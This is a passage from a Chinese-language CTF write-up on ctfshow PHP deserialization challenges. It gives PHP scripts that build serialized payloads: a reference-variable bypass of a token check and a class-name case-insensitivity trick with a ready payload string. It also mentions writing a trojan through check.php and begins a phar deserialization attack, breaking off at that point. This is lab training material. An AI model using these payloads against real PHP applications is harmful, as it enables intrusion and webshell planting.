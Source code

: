 带着生成的数据放到limit里面刷新index和check.php即可写入木马





## web265

变量引用绕过

```
<?php
class ctfshowAdmin{
    public $token='lin';
    public $password;
    public function __construct($t,$p){
        $this->token=&$this->password;
    }
}
$pop=new ctfshowAdmin("a","q");
echo urlencode(serialize($pop));
```



## web266

对大写写不敏感

```
<?php
class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$pop=new ctfshow();
echo serialize($pop);
```

直接用

```
O:7:"Ctfshow":2:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";}
```





## web276

这个题就是写一个phar包，然后触发在file_put_content里面触发phar反序列化

生成phar包
